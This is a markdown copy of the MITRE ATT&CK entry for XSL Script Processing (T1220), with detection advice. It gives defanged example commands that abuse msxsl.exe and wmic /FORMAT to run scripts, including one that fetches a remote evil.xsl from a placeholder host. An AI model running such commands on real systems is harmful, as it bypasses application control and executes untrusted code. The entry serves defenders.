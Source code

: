```yaml
---
contributors:
- Avneet Singh
- Casey Smith
- Praetorian
data_sources:
- 'Module: Module Load'
- 'Process: Process Creation'
id: attack-pattern--ebbe170d-aa74-4946-8511-9921243415a3
mitre_attack_url: https://attack.mitre.org/techniques/T1220
name: XSL Script Processing
platforms:
- Windows
tactics:
- defense-evasion
title: defense-evasion - XSL Script Processing
---
```


## Technical Details

| Attribute | Details |
|-----------|----------|
| **Tactics** | defense-evasion |
| **Platforms** | Windows |
| **Data Sources** | Module: Module Load, Process: Process Creation |
| **System Requirements** | Microsoft Core XML Services (MSXML) or access to wmic.exe |
| **MITRE ATT&CK URL** | [https://attack.mitre.org/techniques/T1220](https://attack.mitre.org/techniques/T1220) |

# XSL Script Processing (attack-pattern--ebbe170d-aa74-4946-8511-9921243415a3)

## Description
Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>
* <code>msxsl.exe script[.]xsl script[.]xsl</code>
* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed “Squiblytwo”, involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>
* Remote File: <code>wmic os get /FORMAT:”https[:]//example[.]com/evil[.]xsl”</code>

## Detection
Use process monitoring to monitor the execution and arguments of msxsl.exe and wmic.exe. Compare recent invocations of these utilities with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity (ex: URL command line arguments, creation of external network connections, loading of DLLs associated with scripting). (Citation: LOLBAS Wmic) (Citation: Twitter SquiblyTwo Detection APR 2018) Command arguments used before and after the script invocation may also be useful in determining the origin and purpose of the payload being loaded.

The presence of msxsl.exe or other utilities that enable proxy execution that are typically used for development, debugging, and reverse engineering on a system that is not used for these purposes may be suspicious.

## External References
- [mitre-attack](https://attack.mitre.org/techniques/T1220)
- [Reaqta MSXSL Spearphishing MAR 2018](https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/)
- [Twitter SquiblyTwo Detection APR 2018](https://x.com/dez_/status/986614411711442944)
- [LOLBAS Wmic](https://lolbas-project.github.io/lolbas/Binaries/Wmic/)
- [Microsoft msxsl.exe](https://www.microsoft.com/download/details.aspx?id=21714)
- [Penetration Testing Lab MSXSL July 2017](https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/)
- [XSL Bypass Mar 2019](https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75)
- [Microsoft XSLT Script Mar 2017](https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script)

